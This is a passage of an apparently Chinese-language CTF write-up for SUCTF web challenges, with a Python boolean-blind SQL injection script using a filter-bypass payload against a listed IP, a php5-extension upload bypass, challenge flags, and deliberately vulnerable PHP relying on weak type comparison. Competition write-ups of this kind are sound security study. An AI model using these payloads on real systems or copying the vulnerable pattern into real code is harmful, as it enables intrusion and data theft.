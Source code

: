 - 已经给出源码，分析过滤规则进行注入，考察掌握的注入姿势，该题使用布尔盲注，注入脚本如下

```py
import requests
import string

url="http://49.4.68.67:89/"
payload="?user=\&pw=%0A||user%0Aregexp%0A0x61646d696e%26%26pw%0AREGEXP%0A%22^{}%22;%00"
guess = string.digits+string.letters

flag=""

for i in range(30):
  print "[+]round: "+str(i)
  for j in guess:
    tmp=flag+j
    sub=url+payload.format(tmp)
    print "[+]"+sub
    re = requests.get(sub)
    if "<h2>Bonjour!, admin</h2>" in re.text:
      flag = flag + j
      break
  print flag
```

- FLAG: SUCTF{SQL_is_sophisticated}

### baby upload

- 弱智题...直接上传 php5 后缀文件
- FLAG: SUCTF{this_is_a_e4ay_upl0ad}

### php is No.1

- php 为什么是 No.1，原因就在于它逗比的弱类型转换..

```php
<?php
include 'flag.php';
isset($_GET['time'])?$time = $_GET['time']:$time = 0;
isset($_GET['num'])?$num = $_GET['num']:$num = 0;
$c=is_numeric($time) and is_numeric($num);
if ($num == 0) {
  if($num){
    if($c){
      if(!is_numeric($time))
        echo 'Time time must be number';
      else if ($time < 60 * 60 * 24 * 30 * 1)
        echo 'This time is too short';
      else if ($time > 60 * 60 * 24 * 30 * 2)
        echo 'This time is too long';
      else{
        sleep((int)$time);
        echo $flag;
        }
    }
    else
      echo 'Try again';
  }
  else
    echo 'Try again';
}
else
  echo 'Try again';
echo '<hr>';
highlight_file(__FILE__);
```